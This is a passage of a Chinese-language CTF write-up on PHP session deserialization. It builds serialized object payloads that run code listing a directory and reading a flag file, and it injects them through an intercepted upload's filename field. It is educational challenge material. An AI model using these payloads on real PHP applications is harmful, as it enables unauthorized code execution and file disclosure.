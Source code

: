 ```php
print_r(scandir(dirname(__FILE__)));
#scandir目录中的文件和目录
#dirname函数返回路径中的目录部分
#__FILE__   php中的魔法常量,文件的完整路径和文件名。如果用在被包含文件中，则返回被包含的文件名
#序列化后的结果
O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}
```

为防止双引号被转义，在双引号前加上\\，除此之外还要加上|

```php
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```

在这个页面随便上传一个文件，然后抓包修改filename的值

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e840440de7e2b36c1eaa52bf6e41964f58291c6b.png)

可以看到Here\_1s\_7he\_fl4g\_buT\_You\_Cannot\_see.php这个文件，flag肯定在里面，但还有一个问题就是不知道这个路径，路径的问题就需要回到phpinfo页面去查看

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-5d82f9025f8b43eee600ff234d4018b6aa4bfb58.png)

$\_SERVER\['SCRIPT\_FILENAME'\] 也是包含当前运行脚本的路径，与 $\_SERVER\['SCRIPT\_NAME'\] 不同的

既然知道了路径，就继续构造payload即可

```php
print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));
#file_get_contents() 函数把整个文件读入一个字符串中。
```

接下来的就还是序列化然后改一下格式传入即可